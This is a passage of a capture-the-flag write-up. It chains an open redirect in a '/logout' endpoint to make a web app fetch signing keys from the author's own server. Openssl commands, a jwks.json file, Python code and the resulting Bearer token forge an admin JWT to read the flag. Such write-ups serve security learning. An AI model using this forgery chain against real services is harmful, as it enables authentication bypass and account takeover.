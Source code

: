 When I reviewed the challenge code again, I noticed the `/logout` endpoint has an redirect after clearing the session, which defaults to `home`, however it does not do any check on the `redirect` parameter if given, and would redirect to whatever is passed onto. This is vulnerable to open redirect. I used this open redirect endpoint to bypass the restriction on issuer, crafted issuer `http://localhost:8080/logout?redirect=https://my-server.example.com/.well_known/jwks.json&a=`, which results in the app requests JWKS from my own server.

### Crafting the Final Payload

Generate RSA private and public key:

```bash
openssl genrsa -out rsa.private 512
openssl rsa -in rsa.private -out rsa.public -pubout -outform PEM
```

Make `jwks.json` to be served with HTTP server:

```json
{
    "keys": [
        {
            "alg": "RS256",
            "x5c": [
                "<content of public key>"
            ]
        }
    ]
}
```

Generate the admin token:

```python
import jwt

private_key = open('rsa.private').read()

print(jwt.encode({'user': 'admin'}, private_key, 'RS256', {'issuer': 'http://localhost:8080/logout?redirect=https://my-server.example.com/.well_known/jwks.json&a='})
```

The token looks like this:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzc3VlciI6Imh0dHA6Ly9sb2NhbGhvc3Q6ODA4MC9sb2dvdXQ_cmVkaXJlY3Q9aHR0cHM6Ly9teS1zZXJ2ZXIuZXhhbXBsZS5jb20vLndlbGxfa25vd24vandrcy5qc29uJmE9In0.eyJ1c2VyIjoiYWRtaW4ifQ.quNOTqf6U7kBTFlK32Nm9QhLL9IkRvtsdnfFm8Ct_Cgr8CCjrIc-H-o3oaKJ_UnEVzsizx4BTlFZJQEuXTkB6w
```

Request `/api/flag` endpoint with the authorization header using the token:

```
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzc3VlciI6Imh0dHA6Ly9sb2NhbGhvc3Q6ODA4MC9sb2dvdXQ_cmVkaXJlY3Q9aHR0cHM6Ly9teS1zZXJ2ZXIuZXhhbXBsZS5jb20vLndlbGxfa25vd24vandrcy5qc29uJmE9In0.eyJ1c2VyIjoiYWRtaW4ifQ.quNOTqf6U7kBTFlK32Nm9QhLL9IkRvtsdnfFm8Ct_Cgr8CCjrIc-H-o3oaKJ_UnEVzsizx4BTlFZJQEuXTkB6w
```
